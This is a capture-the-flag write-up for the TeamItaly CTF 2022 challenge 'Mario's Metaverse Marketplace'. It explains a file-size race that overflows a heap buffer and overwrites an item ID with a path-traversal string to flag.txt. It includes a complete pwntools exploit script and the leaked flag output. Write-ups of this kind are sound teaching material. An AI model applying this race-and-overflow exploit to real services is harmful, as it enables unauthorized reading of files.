


# TeamItaly CTF 2022

## Mario's Metaverse Marketplace (1 solves)

What's a better CTF challenge than an half-finished, buggy software?

Of course an half-finished, buggy software that lets you create NFTs!
~~(No guarantees)~~

Btw I forgot the private key to `flag.txt`, can you retrieve that for me?

### Solution

The vulnerability was a simple TOCTOU on the size of the file that has to be read from disk.



First, a buffer the size of the file minus 0x24 (the size of the token and the item price, contained in the file alongside the item description).

Then a blocking function is called, which asks for the token and continues only if it is correct.

Finally, the description is fully read in the previously allocated buffer.

Note that the file also gets closed and reopened with read-write permissions if the token is indeed correct, so if the file gets modified and becomes larger while the program is waiting for input, the buffer can be overrun with the file contents.

---

To actually trigger the vulnerability the attacker has to use open two connections concurrently:

- Instance 1: create item, get id and token
- Instance 2: insert item id, so the buffer gets allocated
- Instance 1: edit item by making the description larger, and save it.
- Instance 2: insert item token, so the description gets read overrunning the allocated buffer

---

This vuln can be exploited easily to get the flag, as just after allocating the buffer for the item description, the program allocates memory for a global structure, in which the first 32 bytes represent the item id.



Because of this, an attacker can overwrite the id field of the struct with any valid file name, as long as it's exactly 32 bytes long.

The file can be then be read using the "Undo changes" option, which just reloads the item from disk, without asking for the token.

```
Make your selection:
|     Item ID: ../../../../../../../../flag.txt
|     Item secret token: flag{th15_fl4g_n33d5_t0_b3_l0ng3
|     Item price: 1752457074
|     Item description:
         4n_m05t_t0_533_1f_y0u_c4n_r3p4ck_1nt5}
```

The flag is split between the three fields shown (token, price, description). As the price is printed out as an integer, it has to be repacked in binary form, and this can be easily done using `p64(1752457074)` from pwntools.

### Exploit

```python

#!/usr/bin/env python3

from pwn import gdb, remote, process, p32, context, ELF, args, fit, log
import time
import os

exe = context.binary = ELF('m3')

HOST = os.environ.get("HOST", "mmm.challs.teamitaly.eu")
PORT = int(os.environ.get("PORT", 15009))

io = remote(HOST, PORT)
io2 = remote(HOST, PORT)

io.sendlineafter(b":", b"1")
io.sendlineafter(b":", b"1")
io.sendlineafter(b":", b"a"*0x20)

io.recvuntil(b"Item ID: ")
id = io.recvline()[:-2]
io.recvuntil(b"Item secret token: ")
token = io.recvline()[:-2]
log.success(f"ID {id}")
log.success(f"Token {token}")

io.sendlineafter(b":", b"2")
io.sendlineafter(b":", id)

io.sendlineafter(b":", token)
io.sendlineafter(b":", b"2")

io2.sendlineafter(b":", b"2")
io2.sendlineafter(b":", id)

io.sendlineafter(b"Insert new description (up to 1023 characters): ", fit({
    48: b"../../../../../../../../flag.txt"
}))
io.sendlineafter(b":", b"3")
io.sendlineafter(b":", b"0")
io.sendlineafter(b":", b"0")
io.recvuntil(b"Exit")

io.close()
time.sleep(1)

io2.sendlineafter(b":", token)
io2.sendlineafter(b":", b"4")

io2.recvuntil(b"flag.txt")
io2.recvuntil(b"Make your selection: ")
io2.recvuntil(b"Item secret token: ")
flag = io2.recvline().strip()
io2.recvuntil(b"Item price: ")
flag += p32(int(io2.recvline().strip()))
io2.recvuntil(b"Item description: ")
io2.recvline()
flag += io2.recvline().strip()

print(flag.decode('ascii'))

io2.close()

```
